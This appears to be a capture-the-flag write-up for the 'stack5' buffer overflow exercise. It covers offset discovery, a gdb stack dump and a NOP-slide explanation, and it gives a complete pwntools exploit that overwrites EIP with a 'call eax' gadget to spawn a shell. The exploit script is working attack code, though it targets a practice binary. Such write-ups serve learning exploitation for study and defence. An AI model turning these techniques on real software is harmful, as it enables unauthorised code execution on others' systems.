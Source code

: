 In order to do this I will be using shellcode from [shell-storm](http://shell-storm.org/shellcode/).

The plan for this is simple:

`Find the offset`

`Find an address on the stack to jump to` 

`Place a NOP slide on the stack to reach our shellcode` 

`And now we should have a shell`

First the offset, we know is 76, since it's the same as the last challenge.

Now let's set what address we could jump to on the stack.

To do this, we'll send a bunch of "A"'s to the program and monitor the stack after it crashes to look for a suitable place.
```
gdb-peda$ x/200x $esp-100
0xffffd10c:	0xd9	0x83	0x04	0x08	0x20	0xd1	0xff	0xff
0xffffd114:	0x00	0x00	0x08	0x00	0x00	0xa0	0xfa	0xf7
0xffffd11c:	0x88	0xdc	0xfa	0xf7	0x41	0x41	0x41	0x41
0xffffd124:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd12c:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffd134:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```
Due to differences in running the program in gdb and running it without, (such as environment variables etc.) we will need a "NOP slide" (NOP = No operation).

This is used so that we can overwrite EIP with any stack address containing our NOP slide and still reach and execute the code we have on the stack.

This is an actual pain to do through the methods I stated above. (It works well in gdb but god is it a pain to set up without.) So I'll simply use the command "pwn template stack5" to generate a template from which I can write an exploit.


### Exploit Code
```
from pwn import *

exe = context.binary = ELF('stack5')

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()
# ROPgadget --binary stack5 | grep "call eax"
# 0x080483bf : call eax
call_eax = p32(0x080483bf)
offset = 76

payload = fit({0: asm(shellcraft.sh()), offset: call_eax})

io.sendline(payload)
io.interactive()
```
